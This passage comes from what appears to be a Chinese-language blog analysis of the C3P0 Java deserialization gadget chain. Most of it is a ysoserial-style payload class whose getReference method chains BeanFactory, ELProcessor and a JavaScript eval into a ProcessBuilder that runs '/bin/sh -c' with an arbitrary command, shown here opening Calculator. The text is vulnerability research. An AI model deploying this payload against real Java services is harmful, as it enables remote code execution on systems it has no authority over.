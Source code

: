 ```java
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            String cmd = "open -a calculator.app";
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','"+ cmd +"']).start()\")"));
            return ref;
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }


    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(C3P0.class, args);
    }

}
```

这里是触发的地点。


![image-20220512200919472](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512200919472.png)

整个序列化的链子大概就是

![image-20220512201208386](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512201208386.png)

在writeobject的时候，这里调用poolsource的getReference方法，这样也就是设置好了这些的一切.后面的链子就和JNDI的一样了。